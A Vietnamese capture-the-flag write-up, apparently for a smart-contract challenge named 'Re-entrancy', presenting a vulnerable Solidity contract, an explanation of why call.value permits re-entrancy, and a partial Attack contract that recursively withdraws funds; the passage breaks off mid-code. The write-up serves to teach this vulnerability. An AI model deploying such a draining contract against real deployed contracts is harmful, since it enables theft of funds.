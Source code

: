 ## 10. Re-entrancy　★★★★★★

**Nhiệm vụ**: Rút hết tiền khỏi smart contract

```js
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

### Phân tích

- Việc sử dụng các hàm low-level luôn tiềm ẩn nguy cơ xảy ra lỗi. Trong trường hợp này cũng không ngoại lệ, đó là hàm `call`.
- Để chuyển tiền, ta có 3 hàm: `transfer`, `send` và `call`. Giờ đây người ta khuyên chỉ nên dùng transfer và tránh hai hàm còn lại. Một cách hiểu đơn giản: `transfer` sẽ revert lại giao dịch một khi xảy ra lỗi. `send` chỉ trả vể false khi xảy ra lỗi chứ không revert, `call` cũng vậy; nhưng trong khi `send` chỉ được tiêu dè sẻn có 2300 gas thì `call` được phép dùng bao giờ hết gas thì thôi. Đây chính là điểm để ta khai thác.
- Khi rút tiền về địa chỉ của một contract thì `fallback function` của contract đó sẽ được kích hoạt. Sẽ ra sao nếu trong fallback function ta gọi rút tiền một lần nữa, chẳng phải sẽ là đệ quy rút cho tới lúc hết sạch tiền hay sao ?

### Solution

- Chuẩn bị contract tấn công, hãy thay địa chỉ `_target` bằng địa chỉ instance của bạn

```js
contract Attack {
    address target;
    Reentrance re;

    function Attack(address _target) {
        target = _target;
        re = Reentrance(target);
    }

    function attack() public payable {
        re.withdraw(0.5 ether);
    }

    function() payable {
        re.withdraw(0.5 ether);
```